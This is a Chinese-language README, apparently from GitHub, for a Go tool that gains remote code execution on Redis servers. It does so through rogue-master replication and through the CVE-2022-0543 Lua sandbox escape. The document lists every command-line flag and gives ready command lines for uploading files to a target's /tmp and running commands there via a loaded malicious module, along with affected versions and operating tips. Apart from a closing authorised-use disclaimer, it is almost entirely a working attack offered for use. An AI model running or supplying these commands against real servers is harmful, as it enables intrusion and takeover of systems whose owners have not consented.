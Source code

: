 # Redis primary/secondary replication RCE

redis主从复制rce的go版本，可独立编译使用，并集成在在[zscan](https://github.com/zyylhn/zscan)的exploit的redis利用模块中

顺便添加了CVE-2022-0543 Redis Lua 沙盒逃逸 RCE，开箱即用

## 使用方式

```shell
Usage of ./redis-rce:
  -dstpath string
        set target path（上传文件模式中的目标路径）
  -exec
        use execute the command mode（执行命令模式）
  -host string
        set target（目标 redis服务器的地址）
  -lhost string
        set listen host(!!!Make sure the target has access!!!)（我们伪造的主redis的地址）
  -lport int
        set listen port(!!!Make sure the target has access!!!) (default 20001)（我们为在redis开放的端口）
  -pass string
        set redis password（redis的密码，未授权就不填）
  -port int
        set redis port (default 6379)（目标redis的的端口，正常是6379）
  -so string
        set .so file path（用来执行命令的so文件，内置一个，可以不指定）
  -srcpath string
        set upload file path（上传文件模式的本地文件路径）
  -upload
        use upload mode  （上传文件模式）

```

### 上传文件

将当前目录的LICENSE上传到目标的/tmp/test.txt

```
./redis-rce -upload -host 172.16.95.24 -lhost 172.16.95.1 -srcpath LICENSE -dstpath /tmp/test.txt
```

![image-20220316152521251](Image/upload.png)

### 执行命令

```
./redis-rce -exec -host 172.16.95.24 -lhost 172.16.95.1
```

![exec](Image/exec.png)

### CVE-2022-0543 

```
影响版本An unexpected Redis sandbox escape affecting only Debian, Ubuntu, and other derivatives
Redis >=2.2 and < 5.0.13
Redis >=2.2 and < 6.0.15
Redis >=2.2 and < 6.2.5
安全版本Redis 6.2.5、6.0.15、5.0.13或更高版本
```

使用

```
./redis-rce -lua -host 172.16.95.16 -pass 123456
```

![lua](Image/lua.png)

## 注意问题

组从复制影响版本：4.x-5.x

千万不要运行交互式的命令，只要运行了，就连不redis了

如果因为意外链接断开，活着ctl+c结束程序了，会导致模块（so文件）没有unload和上传的so没有被删除，没有被删除问题不大，但是如果模块没有被unload，就不能再load（运行时会检查，如果之前的system没有被unload，会进行unload），尽量使用exit退出

## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。